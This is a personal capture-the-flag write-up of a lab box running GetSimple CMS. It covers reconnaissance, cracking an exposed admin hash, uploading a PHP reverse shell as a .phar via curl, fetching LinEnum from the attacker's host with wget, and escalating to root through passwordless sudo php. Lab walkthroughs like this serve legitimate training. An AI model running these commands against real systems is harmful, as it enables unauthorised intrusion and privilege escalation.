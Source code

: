 # Target: GetSimple

## Notes:
1. Performed Initial scan with ```nmap -sV -sC -oA initial_scan 10.129.118.168```
 - Target has two open ports : 
   22/tcp (SSH)
   80/tcp (http) running on Apache/2.4.41
 - Operating System is likely Linux
2. Accessed the website, nothing interesting, just a home page with barely working buttons.
3. Accessing the robots.txt file we see the **/admin/** folder
4. Accessing it we get a prompt for logging in, i am gonna try a few things as the box is similar to nibbles
5. The site is probably gonna have some protection against brute forcing as nibbles did so i think it's better to search for clues, maybe the template they use has some info
6. i've opened the github repository of GetSimple https://github.com/GetSimpleCMS/GetSimpleCMS but didn't find anything interesting
7. Coming back to the website, i found a date there, maybe i can use this date (**February 9th, 2021**) to search for the release version of GetSimple used here
8. Last release according to the github repository is 3.3.16 released in 2020, which means the website actually uses the last release. Let's hope there are some vulnerabilities for it.
9. After searching i found a proof of concept on https://www.exploit-db.com/exploits/52168
 for an RCE. But we need access to the admin panel to upload our file for a reverse shell
10. Now let's try and find those credentials!
11. Okay so accessing http://10.129.118.168/data/users/admin.xml revealed the username of admin is (of course) **admin** and an interesting field:
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
that looks like a hash. Let's try breaking it 

12. Perfect! our beloved https://crackstation.net/
    already knows this hash (of course it knows it cause it's "admin")
13. Yeah so the username is "admin" and the password is... "admin".
14. login on http://10.129.118.168/admin/
15. Nice, we have access to admin, now we have to build (download) a script for a reverse shell, follow the instruction from **exploit-db** and begin escalation
16. let's use this reverse shell script: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
17. Don't forget to change the ip and port fields
18. rename it to index.php to be able to run the script provided on exploit-dp to generat the .phar file
19. To run this script i had to disable phar.readonly by setting it to Off and decommenting it from the php --ini file location. Finally the archive is created
20. Now we upload it and open a listener on our machine
21. Lol i can't find the upload button, gonna try a POST request with curl using credential cookies that i found in the developer tools
22. looking through the page source to search for the file input field name, i've found something interesting:
	<form class="uploadform" action="upload.php?path=" method="post" enctype="multipart/form-data">
			<p><input type="file" name="file[]" id="file" style="width:220px;" multiple /></p>
			<input type="hidden" name="hash" id="hash" value="e554e86a29ef7d32cfe35c3521dd5029b405992d" />
			<input type="submit" class="submit" name="submit" value="Upload" />
		</form>
See, the field is hidden. So the devs decided to do a little joke. still the curl was already built so i didn't bother changing the type of the input, however you can do this to upload the file more easily.
23. Here is the curl command i've used:
```curl -X POST http://10.129.118.168/admin/upload.php -H "Cookie: 4bc774744b09f4bb3746b641176918d9f52ef9b9=93faf1706c6b62a18553fe3cdf4e4c1015c73760; GS_ADMIN_USERNAME=admin" -F "file[]=@archive.phar"```
24. now let's open a listener and see if the shell works
25. Perfect, we've got our shell, let's beautify our terminal: ```python3 -c 'import os,pty; pty.spawn("/bin/bash")'```
26. After searching for a while, the **user.txt** file is inside mrb3n user directory.

27. Now next step is to escalate privileges, let's upload to our server a script like **LinEnum** or **LinPEAS**
28. To upload a file we'll host a simple server on our main machine and use wget to download it
 host: ```python3 -m http.server 8000```
 download: Here we need to move to **/tmp** directory before downloading as the user doesn't have a home directory where we can write to. RUN:
 ```wget 10.10.14.99:8000/LinEnum.sh```
29. Change execution permissions and run the script
30. The results show an interesting message:
  [-] Accounts that have recently used sudo:
/home/mrb3n/.sudo_as_admin_successful
  and also:
  [+] We can sudo without supplying a password!
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

31. Let's firstly check what the php executable does
32. i've tried echo '<?php echo "Hello from stdin\n";' | ./php and bingo. it printed the message, so this executable runs commands as a sudo. let's use it to find the contents of root.txt 

33. Okay so i am a little bit stupid, the file can be executed as sudo, but not echo so i was wondering why:
```sudo echo "comand" | ./php wasn't working.```
34. the solution is  ```sudo ./php -r 'echo shell_exec("cat /root/root.txt");'``` to execute and find the flag
35. this is the last flag we had to find!